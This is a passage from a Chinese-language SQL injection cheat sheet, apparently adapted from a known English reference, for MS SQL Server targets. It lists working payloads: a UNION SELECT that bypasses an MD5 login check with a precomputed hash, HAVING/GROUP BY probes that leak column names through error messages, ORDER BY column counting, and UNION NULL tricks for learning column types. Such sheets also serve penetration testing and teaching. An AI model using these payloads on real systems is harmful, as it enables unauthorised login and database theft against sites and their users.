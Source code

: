 * 绕过MD5哈希检查 {MSP}

    username:admin

    password:1234

    > ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055

    81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234)

* 基于错误-探测字段名

    + HAVING {S}
        + ' HAVINT 1=1 \-\-
        + ' GROUP BY table.columnfromerror1 HAVING 1=1 \-\-
        + ' GROUP BY table.columnfromerror1, table.columnfromerror2 HAVING 1=1 \-\-
        + ...
    + SELECT 中使用 ORDER BY 探测字段数 {MSO}
        + ORDER BY 1 \-\-
        + ...
        + ORDER BY N \-\-

### 3. 数据类型、UNION、之类的

* 提示：

    + 经常给UNION配上ALL使用，因为经常会有相同数值的字段，而缺省情况下UNION都会尝试返回唯一值(records with distinct)
    + 如果你每次查询只能有一条记录，而你不想让原本正常查询的记录占用这宝贵的记录位，可以使用-1或者根本不存在的值来搞定原查询（前提是注入点在WHERE里）。
    + 在UNION中使用NULL，对于大部分数据类型来说这样都比瞎猜字符串、日期、数字之类的来得强
    + 盲注的时候要小心判断错误是来自应用的还是来自数据库的。因为像ASP.NET就经常会在你使用NULL的时候抛出错误（一般用户名的框中不会出现NULL）

+ 获取字段类型
    + ' union select sum(columntofind) from users\-\- {S}

    > Microsoft OLE DB Provider for ODBC Drivers error '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]The sum or average aggregate operation cannot take a **varchar** data type as an argument. 如果没有返回错误说明字段是数字类型

    + 可以使用CAST()和CONVERT()

    > SELECT * FROM Table1 WHERE id = -1 UNION ALL SELECT null, null, NULL, NULL, convert(image,1), null, null,NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULl, NULL\-\-

    + 类型查询

    >11223344) UNION SELECT NULL,NULL,NULL,NULL WHERE 1=2 \–\-

    没报错 - 语法是正确的。 这是MS SQL Server的语法。 继续。

    > 11223344) UNION SELECT 1,NULL,NULL,NULL WHERE 1=2 \–\-

    没报错 – 第一个字段是integer类型。

    > 11223344) UNION SELECT 1,2,NULL,NULL WHERE 1=2 \-\-

    报错 – 第二个字段不是integer类型

    > 11223344) UNION SELECT 1,’2’,NULL,NULL WHERE 1=2 \–\-

    没报错 – 第二个字段是string类型。
